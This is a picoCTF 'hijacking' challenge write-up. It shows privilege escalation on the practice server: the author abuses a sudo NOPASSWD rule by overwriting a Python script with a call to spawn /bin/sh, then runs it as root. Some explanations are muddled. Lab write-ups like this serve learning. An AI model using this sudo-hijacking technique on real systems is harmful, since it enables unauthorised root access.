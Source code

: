 # Challange Info

Name : hijacking

Difficulty : Medium

Category : Binary Exploitation

Link : https://play.picoctf.org/practice/challenge/352?category=6&page=2

(Note : I will suggest look for other writeups as I don't think this is intended solution for this challange)

# Writeup

The challange provides SSH details.

Logging in via ssh.

```bash
ssh picoctf@saturn.picoctf.net -p 60826
```

Listing all files in home directory.

```bash
ls -al
```

The file which caught my eye was .server.py.

> -rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py

But as it's not writeable if we try to edit the file it will drop to picoctf user from root.

So we check if picoctf is allowed to run commands as sudo.

```bash
sudo -l
```

> User picoctf may run the following commands on challenge:
> 
>    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

We can run the python file as sudo.

Using vim to edit the file.

```bash
vim .server.py
```

Replacing file contents with following :

```python
import os
os.system("/bin/sh")
```

(Note : We have to use vim as it allows file to drop from root to picoctf and nano is not avalaible on the server)

In order to exit vim.

```bash
wq!
q!
```

This will give error but when we quit vim we'll get the file dropped from root to picoctf user it dosen't matter as we can anyway run the file as root user via sudo.

Running the python script as sudo. 

(Note : That the allowed config uses relative path for .server.py so we also have to do the same or it'll give us error that we are not allowed to execute the file. For python3 it gets the relative path from PATH variable.)

```bash
sudo python3 /home/picoctf/.server.py
```

We get root shell.

Navigating to /root and listing all files.

```bash
cd /root
ls -al
```

> -rw-r--r-- 1 root root   43 Sep 26 19:29 .flag.txt
